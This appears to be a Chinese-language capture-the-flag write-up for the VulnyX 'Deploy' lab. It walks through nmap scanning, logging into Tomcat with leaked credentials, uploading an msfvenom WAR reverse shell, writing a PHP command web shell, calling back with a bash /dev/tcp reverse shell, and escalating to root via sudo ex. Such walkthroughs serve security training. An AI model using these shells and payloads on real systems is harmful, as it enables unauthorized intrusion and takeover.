








# 环境

来自[Vulny_Deploy](https://vulnyx.com/#Deploy)，tomcat泄露敏感信息，在网站根目录写入反弹shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.13
```



## 服务详情

```bash
sudo nmap -sV -sC -O -p22,80,8080 192.168.10.13
```



## 目录扫描

```bash
dirb http://192.168.10.13
dirb http://192.168.10.13:8080
```

无结果

# web渗透

## 网站泄露信息

访问http://192.168.10.13:8080/host-manager/html



```bash
用户名：tomcat
密码：s3cret
```

登录到tomcat后台

## 上传shell

```bash
msfconsole
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.10 LPORT=8888 -f war > shell.war
nc -lvvp 8888
```



访问shell，即可反弹shell



## 提权

访问tomcat-users.xml文件，发现有用户`sa`，密码`salala!!`



然后在/var/www/html网站根目录下写入一个反弹shell

```bash
echo '<?php system($_GET["cmd"]); ?>' >/var/www/html/cmd.php
```

访问`http://192.168.10.13/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.10.10/8888 0>%261 "`

[ex提权](https://gtfobins.github.io/gtfobins/ex/)

```bash
得到交互式更好的shell
#########
/bin/script -qc /bin/bash /dev/null
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
source /etc/skel/.bashrcs
############
sudo -l
sudo -u root /usr/bin/ex
!/bin/bash
```


